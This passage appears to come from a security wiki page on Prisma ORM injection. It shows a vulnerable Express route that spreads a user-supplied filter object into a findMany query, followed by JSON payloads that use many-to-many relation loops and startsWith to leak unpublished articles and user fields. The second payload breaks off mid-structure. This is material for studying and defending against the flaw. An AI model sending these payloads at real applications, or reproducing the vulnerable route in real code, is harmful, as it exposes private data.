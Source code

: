 > [!CAUTION]
> Using operations like `startsWith` it's possible to leak information.&#x20;

- **Many-to-many relational filtering bypassing filtering:**&#x20;

```javascript
app.post("/articles", async (req, res) => {
  try {
    const query = req.body.query
    query.published = true
    const posts = await prisma.article.findMany({ where: query })
    res.json(posts)
  } catch (error) {
    res.json([])
  }
})
```

It's possible to leak not published articles by lopping back to the many-to-many relationships between `Category` -\[\*..\*]-> `Article`:

```json
{
  "query": {
    "categories": {
      "some": {
        "articles": {
          "some": {
            "published": false,
            "{articleFieldToLeak}": {
              "startsWith": "{testStartsWith}"
            }
          }
        }
      }
    }
  }
}
```

It's also possible to leak all the users abusing some loop back many-to-many relationships:

```json
{
  "query": {
    "createdBy": {
      "departments": {
        "some": {
          "employees": {
            "some": {
              "departments": {
                "some": {
                  "employees": {
                    "some": {
                      "departments": {
                        "some": {
                          "employees": {
                            "some": {
                              "{fieldToLeak}": {
                                "startsWith": "{testStartsWith}"
                              }
                            }
                          }
                        }
                      }
                    }
                  }
```